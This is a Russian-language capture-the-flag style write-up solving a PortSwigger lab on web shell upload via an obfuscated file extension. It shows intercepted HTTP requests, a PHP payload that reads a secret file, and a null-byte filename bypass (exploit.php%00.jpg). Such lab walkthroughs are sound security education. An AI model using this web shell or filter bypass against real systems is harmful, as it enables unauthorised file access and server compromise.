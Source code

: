 ```yaml
---
title: "Web shell upload via obfuscated file extension"
date: 2025-08-14
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/insufficient-blacklisting-of-dangerous-file-types/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension"
classes: wide
---
```


В данной лабе содержится уязвимость **в загрузке файлов**. Для прохождения нужно получить доступ к файлу `/home/carlos/secret` и передать его содержимое в форму проверки.

Для входа в аккаунт можно использовать данные `wiener`:`peter`.

```
https://0a9e00500358597d8139cfb30072000e.web-security-academy.net/
```

## Solution

Залогинюсь в ЛК, чтобы получить доступ к загрузке изображения. Далее загружу картинку, чтобы получить `POST`-запрос:

```http
POST /my-account/avatar HTTP/2
Host: 0a9e00500358597d8139cfb30072000e.web-security-academy.net
Cookie: session=lEfYg1FlPTuq1ROth2VpoLZNtUwnBfjp
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9e00500358597d8139cfb30072000e.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=----geckoformboundaryfceb9abf78dbacfa1630c433a9ee5183
Content-Length: 107749
Origin: https://0a9e00500358597d8139cfb30072000e.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundaryfceb9abf78dbacfa1630c433a9ee5183
Content-Disposition: form-data; name="avatar"; filename="dog.jpg"
Content-Type: image/jpeg
```

Получил ответ:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_obfuscated_file_extension/1.png){: height="200" .align-center}

Попробую загрузить пейлоад на `php` со следующим содержанием:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Я получил следующее сообщение об ошибке:

```
Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.
```

Перехвачу этот запрос с помощью `Burp Proxy`.

```http
POST /my-account/avatar HTTP/2
Host: 0a9e00500358597d8139cfb30072000e.web-security-academy.net
Cookie: session=lEfYg1FlPTuq1ROth2VpoLZNtUwnBfjp
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9e00500358597d8139cfb30072000e.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundary2c70b7ac2112b49187d963d4f8123642
Content-Length: 521
Origin: https://0a9e00500358597d8139cfb30072000e.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary2c70b7ac2112b49187d963d4f8123642
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>

------geckoformboundary2c70b7ac2112b49187d963d4f8123642
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary2c70b7ac2112b49187d963d4f8123642
Content-Disposition: form-data; name="csrf"

RgCgfWH2Gi2LyeTUGt2VfUTMRoERK3OT
------geckoformboundary2c70b7ac2112b49187d963d4f8123642--
```

Попробую обфусцировать расширение файла.

```
exploit.php .jpg - Ok, но нет доступа
'exploit.php ' - 403
exploit.php%00.jpg - ok
```

Теперь надо получить файл через `curl`:

```bash
cu63:~/ $ curl https://0a9e00500358597d8139cfb30072000e.web-security-academy.net/files/avatars/exploit.php                                               
muIWVFAUZpHDz4wxvhmVaTIRTvphcvCO%
```

Сдам токен `muIWVFAUZpHDz4wxvhmVaTIRTvphcvCO` для прохождения лабы в форму проверки.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_obfuscated_file_extension/2.png){: height="200" .align-center}

Лаба успешно пройдена:3